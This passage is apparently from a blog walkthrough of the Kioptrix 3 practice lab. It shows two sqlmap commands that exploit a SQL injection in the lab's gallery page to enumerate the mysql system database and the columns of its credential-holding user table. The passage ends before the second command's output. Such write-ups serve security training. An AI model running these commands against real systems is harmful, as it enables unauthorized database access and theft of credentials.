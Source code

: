 The MySQL database is a system database containing tables that store essential information for the MySQL server's operation. Tables in the MySQL database fall into categories such as Grant System Tables. Let's take a look at the tables inside it.

Command:

```shell
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=\&sort=filename#photos" -p id --tables -D mysql #Tables of a database ( -D <DB NAME> )
```

Output:

![Desktop View](/assets/img/posts/2024-06-07-kioptrix-3-boot-to-root/pic16.png)

The table we should focus on is `user`. Let's check its columns.

Command:

```shell
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=\&sort=filename#photos" -p id -D mysql -T user --columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
```

Output:
